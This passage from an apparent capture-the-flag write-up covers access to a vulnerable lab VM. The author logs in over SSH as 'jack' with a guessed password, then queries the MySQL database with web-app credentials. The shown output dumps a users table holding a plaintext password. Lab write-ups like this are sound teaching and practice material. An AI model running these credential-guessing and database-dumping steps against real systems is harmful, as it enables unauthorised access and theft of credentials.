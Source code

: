 The comment was quite helpful along with all the mentions of Jack on the website, along with the `/etc/passwd` revealing a `jack` user, I tried these credentials on a SSH session:

```bash
root@kali:~# ssh jack@192.168.56.102
jack@192.168.56.102's password:
Linux hell 3.2.0-4-486 #1 Debian 3.2.57-3+deb7u2 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Sun Jul 20 04:29:06 2014 from 192.168.56.1
$ id
uid=1001(jack) gid=1001(jack) groups=1001(jack)
$
```

Well that was easy... With this shell, I also checked out the MySQL database to see if there is any interesting information:

```bash
$ mysql -uwww-data -pwebsite
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10320
Server version: 5.5.37-0+wheezy1 (Debian)

Copyright (c) 2000, 2014, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| website            |
+--------------------+
2 rows in set (0.00 sec)

mysql> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_website |
+-------------------+
| users             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----------+-----------+
| username | password  |
+----------+-----------+
| Jack     | g0tmi1k69 |
```